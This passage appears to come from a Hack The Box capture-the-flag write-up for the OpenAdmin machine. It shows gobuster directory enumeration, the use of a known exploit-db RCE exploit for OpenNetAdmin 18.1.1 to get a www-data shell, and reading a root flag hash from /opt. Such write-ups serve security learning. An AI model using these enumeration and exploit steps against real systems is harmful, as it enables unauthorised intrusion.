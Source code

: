 ## Web enumeration

The default Ubuntu page is shown when I check out the webserver's root directory.

![](/assets/images/htb-writeup-openadmin/web1.png)

Let's run gobuster to find hidden files and directories:

```
# gobuster dir -t 50 -w ~/tools/SecLists/Discovery/Web-Content/big.txt -x php -u http://openadmin.htb
[...]
/artwork (Status: 301)
/music (Status: 301)
/server-status (Status: 403)
/sierra (Status: 301)
```

So I found a couple of static web pages for the three directories above:

![](/assets/images/htb-writeup-openadmin/web2.png)

![](/assets/images/htb-writeup-openadmin/web3.png)

![](/assets/images/htb-writeup-openadmin/web4.png)

## OpenNetAdmin RCE

The `/music` page's login link goes to `http://openadmin.htb/ona/` which is running OpenNetAdmin, a system for tracking IP network attributes in a database.

![](/assets/images/htb-writeup-openadmin/ona.png)

I see it's running `v18.1.1` and a quick search on exploit-db shows I can get RCE by exploiting a bug in the application.

```
OpenNetAdmin 18.1.1 - Remote Code Execution     | exploits/php/webapps/47691.sh
```

After executing the exploit I have RCE as user `www-data`.

```
root@kali:~/htb/openadmin# ./exploit.sh http://openadmin.htb/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Unintended path to root flag

While looking around the filesystem I found a hash in `priv.save` which turned out to be the root flag.
```
$ ls -l /opt
total 12
drwxr-x--- 7 www-data www-data 4096 Nov 21 18:23 ona
-rw-r--r-- 1 root     root        0 Nov 22 23:49 priv
-rw-r--r-- 1 root     root       33 Jan  2 20:54 priv.save
-rw-r--r-- 1 root     root       33 Jan  2 21:12 priv.save.1
$ cat /opt/priv.save
2f907ed450b[...]
```
